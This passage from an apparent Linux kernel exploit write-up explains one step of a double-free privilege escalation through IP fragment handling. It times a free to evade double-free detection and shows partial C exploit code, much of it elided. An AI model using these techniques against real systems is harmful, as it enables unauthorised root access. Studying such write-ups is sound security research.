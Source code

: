 ### Middle double-free obj free (DF detection evasion)

Now the first free happened, we need to do the free in the middle to prevent naive double-free detection. We do this by waiting 1000ms (+ 100ms buffer): the time we specified earlier with `set_ipfrag_time(1)`.

We also set the ipfrag_time for the double-free packet to be 999, which means it will not expire now (but 999 seconds from now).

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
		// ... (DF free 1)

#if CONFIG_FLC_BYPASS
		// reset timer since our other-CPU packet is expiring on 1 sec
		set_ipfrag_time(1);

		// wait for corruption bypass packet to expire
		// this may need to be longer or shorter, depending on WARNING() duration
		//sleep(2);
		usleep(1100 * 1000);
#endif

        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```
